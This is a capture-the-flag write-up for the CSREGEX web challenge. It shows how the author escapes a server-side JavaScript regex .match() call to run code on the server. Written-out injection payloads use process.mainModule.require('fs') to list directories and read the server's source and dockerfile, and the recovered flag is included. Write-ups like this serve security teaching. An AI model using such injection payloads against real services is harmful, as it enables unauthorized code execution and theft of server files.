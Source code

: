 # writup for CSREGEX challange
description:
```
Stop pwning, start learning REGEX! This is such a fine way to ESCAPE the real world...

http://chal.cybersecurityrumble.de:9876

Author: molatho|nviso

(72 solves)
```

Table of contents
=================

<!--ts-->
   * [how we got to the solution](#how we got to the solution)
   * [solution](#solution)
<!--te-->

how we got to the solution
=============================

we are greeted with a regex tesiting page, In the main box you can enter a regular expression, which will be evaluated and the output will be shown in the bottom

```
'A regular expression (shortened as regex or regexp; also referred to as rational expression) is a sequence of characters that define a search pattern. Usually such patterns are used by string-searching algorithms for "find" or "find and replace" operations on strings, or for input validation. It is a technique developed in theoretical computer science and formal language theory.\n\nThe concept arose in the 1950s when the American mathematician Stephen Cole Kleene formalized the description of a regular language. The concept came into common use with Unix text-processing utilities. Different syntaxes for writing regular expressions have existed since the 1980s, one being the POSIX standard and another, widely used, being the Perl syntax.\n\nRegular expressions are used in search engines, search and replace dialogs of word processors and text editors, in text processing utilities such as sed and AWK and in lexical analysis. Many programming languages provide regex capabilities either built-in or via libraries.\n\nhttps://en.wikipedia.org/wiki/Regular_expression'.match(/<user input regex>/gi)
```
this gets transmtted and evaluated on the server. 
Which makes the task pretty obvious, lets escape the .match expression and have server side (remote) code execution


z'.match()/gi); <javascript code>;/
- the first part `z'.match()/gi);` completes the string so it doesnt error
- the end `;/` is to comment out the rest, `/gi`



so we have an RCE, what next?

"fetch is not defined" -- we are running on node and not a web browser

lets see what we can and cannot do:
- we cannot call require
- `child_process` and `fs` arent imported
- we can use `return` to get any data back from the server

thats not much, but we found that we can infact call require by using `process.mainModule.require`

so lets build a little script:
we can return the contents of the current directory with the fs module
```js
//code:
let files = [];
const fs = process.mainModule.require('fs');
fs.readdirSync(".").forEach(file => files.push(file) );
return files;

// exploit:
z'.match()/gi);let files = [];const fs = process.mainModule.require('fs'); fs.readdirSync(".").forEach(file =>  files.push(file) ); return files;/

// result:
{"result":[".dockerignore","api.js","csregex","dist","dockerfile","index.js","leftover.js","node_modules","package-lock.json","package.json","regexer.js","requests.log","simple-fs.js"]}

```



solution
===========
start reading the files to see if there is anything interesting in either one
```js
// code:
const fs = process.mainModule.require('fs');
const data = fs.readFileSync('api.js', 'utf8');
return(data);/

// exploit:
z'.match()/gi);const fs = process.mainModule.require('fs'); const data = fs.readFileSync('dockerfile', 'utf8'); return(data);/

//results
api.js: "var express = require('express');↵var router = express.Router();↵var RegexEr = require('./regexer')↵↵router.get('/regex/:pattern/:flags/:input', (req, res) => {↵    var params = {↵        pattern: req.params.pattern,↵        input: req.params.input,↵        flags: req.params.flags↵    };↵    try {↵        params.pattern = Buffer.from(req.params.pattern, 'base64').toString();↵        params.input = Buffer.from(req.params.input, 'base64').toString().replace(/\n/gm, "").trim();↵        params.flags = Buffer.from(req.params.flags, 'base64').toString();↵        RegexEr.process(params.pattern, params.flags, params.input)↵            .then((result) => res.status(200).send({result: result}))↵            .catch((err) => res.status(400).send({ error: err.message }));↵↵    } catch (ex) {↵        console.error(ex);↵        res.status(400).send(JSON.stringify(ex));↵    }↵↵});↵↵module.exports = router;"
dockerfile:"from mhart/alpine-node:12\nWORKDIR /app\nCOPY . .\nRUN apk update\nRUN apk upgrade\nRUN apk add bash\nRUN apk add curl\nRUN npm install\nRUN chown root:root .\nRUN chmod -R 755 .\nRUN adduser -D -g '' server\nRUN touch requests.log\nRUN chown server:server requests.log\nRUN chmod +s /usr/bin/curl\nRUN echo 'CSR{r363x_15_fun_r363x_15_l0v3}' > /root/flaggerino_flaggeroni.toxt\nRUN chmod 640 /root/flaggerino_flaggeroni.toxt\nRUN chmod 744 /root\nUSER server\nEXPOSE 8080\nCMD [ \"node\", \"index.js\"]
```

sure enought dockerfile had the flag
```
RUN echo 'CSR{r363x_15_fun_r363x_15_l0v3}'
```


